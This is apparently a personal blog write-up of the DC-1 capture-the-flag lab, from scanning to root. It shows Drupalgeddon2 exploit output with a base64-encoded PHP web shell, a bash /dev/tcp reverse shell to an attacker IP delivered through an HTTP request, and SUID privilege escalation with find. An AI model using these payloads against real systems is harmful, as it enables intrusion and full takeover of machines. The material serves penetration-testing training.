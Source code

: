 ```yaml
---
layout: post
author: H4
---
```

# PG VULNHUB DC-1
[Details](https://www.vulnhub.com/entry/dc-1,292/)

## enumeration

Performing a `nmap` scan to identify the attack surface of the target.

### nmap
```bash
nmap 192.168.200.193       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 13:38 EDT
Nmap scan report for 192.168.200.193
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

### web server (port 80)
- `gobuster` did not reveal anything useful on the web server on port `80`
- website with drupal installation  
-> maybe vulnerable to `druaplgeddon`

---

## exploitation
### durpalgeddon2
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

```bash
ruby drupalgeddon2.rb http://192.168.200.193/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.200.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.200.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.200.193/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://192.168.200.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://192.168.200.193/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.200.193/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZFKXPOT
[+] Result : OZFKXPOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.200.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.200.193/shell.php' -d 'c=hostname'
DC-1>> whoami
www-data
```

Yay! RCE works!

---

## post exploitation
### full reverse shell
`drupalgeddon` deploys a simple `shell.php` and we will exploit this to get a cute reverse shell.

#### listener on attacker machine
```bash
nc -lvp 80
listening on [any] 80 ...
```

#### on target machine
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.200/80 0>&1'`
```http
GET /shell.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.200/80+0>%261' HTTP/1.1
Host: 192.168.200.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: has_js=1
Connection: close
```

#### catch reverse connection
```bash
nc -lvp 80
listening on [any] 80 ...
192.168.200.193: inverse host lookup failed: Unknown host
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.193] 45807
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami
whoami
www-data
```

#### make it beautiful
```bash
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ export TERM=xterm
export TERM=xterm
```

hit CTRL+Z
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -lvp 80
stty raw -echo; fg                                                                 
[1]  + continued  nc -lvp 80

www-data@DC-1:/var/www$ whoami 
www-data
```
Now we got a fully interactive shell with autocomplete etc. :)

### first flag
```bash
www-data@DC-1:/var/www$ cd /
www-data@DC-1:/$ cd home
www-data@DC-1:/home$ ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
7******************************8
```
-> `7******************************8`

### privilege escalation
#### check for suid binaries
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwxr-sr-x 1 root ssh 128396 Jan 27  2018 /usr/bin/ssh-agent
-rwsr-sr-x 1 daemon daemon 50652 Oct  4  2014 /usr/bin/at
-rwxr-sr-x 1 root mlocate 30492 Sep 25  2010 /usr/bin/mlocate
-rwxr-sr-x 1 root mail 17908 Nov 18  2017 /usr/bin/lockfile
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 49364 Feb 27  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 9708 Jun 11  2012 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwxr-sr-x 1 root mail 9768 Nov 30  2014 /usr/bin/mutt_dotlock
-rwxr-sr-x 1 root tty 18020 Dec 10  2012 /usr/bin/wall
-rwxr-sr-x 1 root crontab 34760 Jul  4  2012 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 18168 Feb 27  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwxr-sr-x 1 root mail 13960 Dec 12  2012 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 4972 Feb 21  2011 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root shadow 30332 May  5  2012 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```
-> `find` looks juicy!  
  
Check [gtfobins](https://gtfobins.github.io/) on how to exploit `find` to gain `root` access.

```bash
www-data@DC-1:/home$ whereis find
find: /usr/bin/find /usr/bin/X11/find /usr/share/man/man1/find.1.gz
www-data@DC-1:/home$ find . -exec /bin/sh \; -quit    
# whoami
root
```

### second flag
```bash
# cd /root
# ls
proof.txt  thefinalflag.txt
# cat proof.txt
0******************************1
```
-> `0******************************1`  
  
Pwned! <@:-)
